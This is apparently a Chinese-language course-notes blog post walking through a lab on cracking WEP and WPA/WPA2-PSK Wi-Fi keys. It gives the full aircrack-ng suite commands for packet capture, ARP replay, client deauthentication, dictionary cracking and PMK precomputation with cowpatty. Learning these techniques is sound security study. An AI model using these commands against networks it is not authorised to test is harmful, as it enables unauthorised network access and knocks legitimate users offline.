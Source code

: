 ```yaml
---
layout: mypost
title: 无线安全-4
categories: [网络安全]
---
```


### wlan加密漏洞

- WLAN委员会（IEEE 802.11）制定了以下与数据加密有关的协议
    1. 有限等效保密（WEP） 协议
    2. WiFi保护访问（WPA）协议
    3. WiFi保护访问v2（WPA2）协议

1. ifconfig wlan0 up
2. airmon-ng start wlan0
3. ifconfig
4. airodump-ng wlan0mon
    - airodump-ng --bssid {{your AP MAC}} --channel {{whatever channel it's on}} --write WEPCrackingDemo wlan0mon
        - --write作用让airodump-ng抓到的数据包存入一个pcap文件
5. 无线客户端连接AP
6. ls看到*.cap、*.csv文件
7. 为了生成大量的data数据包，使用aireplay-ng
    - aireplay-ng -3 -b {{AP MAC}} -h {{为发动攻击的无线客户端指定一个冒充的MAC地址}} wlan0mon --ignore-negative-one
8. 针对airodump-ng生成的*.cap文件进行破解，使用aircrack-ng命令
    - aircrack-ng *.cap，等待密码展示
9. 一般来说破解密钥所需数据包的数量不定，一般不低于10万，在一个快速的网络内，或者使用aireplay-ng工具，最多花上5-10分钟
    WEP绝对不是安全的工具，只要用同一密钥加密的数据包的数量足够多，aircrack-ng工具就有机可乘
10. 推荐一个字典生成工具
    - crunch 8 8 01234567 >> ./num.txt

- 4.3.MAX
    - 之前的攻击实验中，若合法的无线客户端突然掉线，则攻击主机将无法执行数据包重放任务，因为AP会决绝接收由尚未与其关联的无线客户端发出的数据包
    - 执行wep破解联系时，运用SKA规避技术，执行七篇验证及关联，尝试让合法的无线客户端掉线，并观察是否仍能将数据包注入无线网络，以及AP是否接收并响应这样的数据包

- 4.4 WPA/WPA2
    - WPA：临时密钥完整性协议加密算法
    - 极易为字典攻击所承
        - 攻击条件：无线客户端和AP之间的4次WPA握手信息，以及包含有常用密码的单词列表（字典），使用aircrack-ng之类的工具，便可尝试破解WPA/WPA2 PSK密码
    1. AP 设置 WPA-PSK验证模式
    2. airmon-ng start wlan0
    3. airodump-ng --bssid {{AP MAC}} --channel 1 --write WPADemo wlan0mon
    4. 捕捉WPA握手所生成的流量
        1. 静候无线客户端连接AP
        2. 通过广播方式发出解除验证数据包，迫使合法的无线客户端段线重连，再伺机捕捉4次WPA握手锁生成的流量
        3. 只要成功捕捉到4次握手相应的数据包，airodump-ng右上角就会（一闪即逝也可）输出"WPA handshake:AP的BSSID"加以提示
        - 我做实验的时候先是使用第一种，后续重新实验使用第二种
            - aireplay-ng --deauth 1 -a {{ap bssid}} wlan0mon --ignore-negative-one，可能需要尝试多次
    5. 关闭airodump-ng，根据生成的cap文件，使用wireshark打开查看握手数据包，握手协议：eapol过滤
    6. kali linux在metasploit目录下提供了许多字段文件，具体放在/usr/share/wordlists/中
    7. aircrack-ng *.cap -w /usr/share/wordlists/nmap.lst
    8. 由于执行的是`字典攻击`，所以AP密码必须存在与字段中，否则无法解密

- 4.4.MAX 
    - 尝试使用cowpatty破解WPA-PSK
            
- 4.7 加快破解速度
    1. 使用genpmk工具
        - genpmk -f {{chosen wordlist}} -d {{预先生成pmk文件名称}} -s {{AP essid}}
    2. 破解密码
        - cowpatty -d {{预先生成pmk文件}} -s {{AP essid}} -r {{握手包.cap}}
        ![]({{site.context}}/static/img/wireless/10.png)

      
        





{{ page.date | date_to_string }}
